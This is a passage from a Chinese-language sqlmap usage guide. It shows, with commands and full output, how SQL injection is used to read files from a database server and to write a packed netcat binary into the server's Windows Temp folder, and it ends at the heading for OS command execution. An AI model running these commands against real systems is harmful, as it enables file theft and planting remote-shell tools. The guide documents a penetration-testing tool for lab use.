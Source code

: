 列举一个Microsoft SQL Server 2005的例子：

	$ python sqlmap.py -u "http://192.168.136.129/sqlmap/mssql/iis/get_str2.asp?name=luther" \
	--file-read "C:/example.exe" -v 1
	
	[...]
	[hh:mm:49] [INFO] the back-end DBMS is Microsoft SQL Server
	web server operating system: Windows 2000
	web application technology: ASP.NET, Microsoft IIS 6.0, ASP
	back-end DBMS: Microsoft SQL Server 2005
	
	[hh:mm:50] [INFO] fetching file: 'C:/example.exe'
	[hh:mm:50] [INFO] the SQL query provided returns 3 entries
	C:/example.exe file saved to:    '/software/sqlmap/output/192.168.136.129/files/	C__example.exe'
	[...]
	
	$ ls -l output/192.168.136.129/files/C__example.exe 
	-rw-r--r-- 1 inquis inquis 2560 2011-MM-DD hh:mm output/192.168.136.129/files/C__example.exe
	
	$ file output/192.168.136.129/files/C__example.exe 
	output/192.168.136.129/files/C__example.exe: PE32 executable for MS Windows (GUI) Intel
	80386 32-bit


#### 把文件上传到数据库服务器中

	参数：--file-write,--file-dest

当数据库为MySQL，PostgreSQL或Microsoft SQL Server，并且当前用户有权限使用特定的函数。上传的文件可以是文本也可以是二进制文件。

列举一个MySQL的例子：

	$ file /software/nc.exe.packed 
	/software/nc.exe.packed: PE32 executable for MS Windows (console) Intel 80386 32-bit
	
	$ ls -l /software/nc.exe.packed
	-rwxr-xr-x 1 inquis inquis 31744 2009-MM-DD hh:mm /software/nc.exe.packed
	
	$ python sqlmap.py -u "http://192.168.136.129/sqlmap/mysql/get_int.aspx?id=1" --file-write \
	"/software/nc.exe.packed" --file-dest "C:/WINDOWS/Temp/nc.exe" -v 1
	
	[...]
	[hh:mm:29] [INFO] the back-end DBMS is MySQL
	web server operating system: Windows 2003 or 2008
	web application technology: ASP.NET, Microsoft IIS 6.0, ASP.NET 2.0.50727
	back-end DBMS: MySQL &gt;= 5.0.0
	
	[...]
	do you want confirmation that the file 'C:/WINDOWS/Temp/nc.exe' has been successfully 
	written on the back-end DBMS file system? [Y/n] y
	[hh:mm:52] [INFO] retrieved: 31744
	[hh:mm:52] [INFO] the file has been successfully written and its size is 31744 bytes, 
	same size as the local file '/software/nc.exe.packed'


####  运行任意操作系统命令

	参数：--os-cmd,--os-shell

